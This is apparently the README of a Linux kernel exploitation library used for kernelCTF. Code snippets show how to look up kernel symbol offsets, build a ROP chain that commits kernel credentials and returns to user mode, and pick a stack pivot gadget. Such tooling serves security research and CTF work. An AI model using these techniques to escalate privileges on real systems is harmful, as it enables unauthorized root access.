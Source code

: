 # How to get started

### Creating a Database

1. Add the necessary includes to the exploit code.

    ```c++
    #include <cassert>
    #include <target/TargetDb.cpp>
    #include <test/kpwn/Kpwn.cpp>
    #include <util/incbin.cpp>
    #include <util/syscalls.cpp>
    #include <util/error.cpp>
    #include <util/pwn_utils.cpp>
    #include <payloads/Payload.cpp>
    #include <util/HexDump.cpp>
    #include <util/ArgumentParser.cpp>
    #include <pivot/PivotFinder.cpp>
    #include <pivot/StackPivot.cpp>
    #include <payloads/PayloadBuilder.h>
    #include <payloads/PayloadBuilder.cpp>
    ```

2. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**:

    ```c++
    TargetDb kpwn_db(target_db, target_db_size);
    ```

4. Already available in database structure and symbol offsets are documented in `kpwn_db/converter/config.py`. 
They are added for all the supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kpwn_db.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128,
                {{"dump", 64, 8},
                {"type", 120, 8}});

    kpwn_db.AddStaticTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7. Access pre-defined or added (via `StaticTarget`) structures and symbols using following calls:

    ```c++
    auto offset = structs.at("nft_expr_ops").size + structs.at("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ``` 

8.  Detect which target **TargetDb** is being run on.

    ```c++
    auto target = kpwn_db.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```
   
   > **Note**
   > Reserves 8 bytes at offset 0.   

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kpwn_db/converter/config.py`. 

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:
   
   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset(); 
   ```
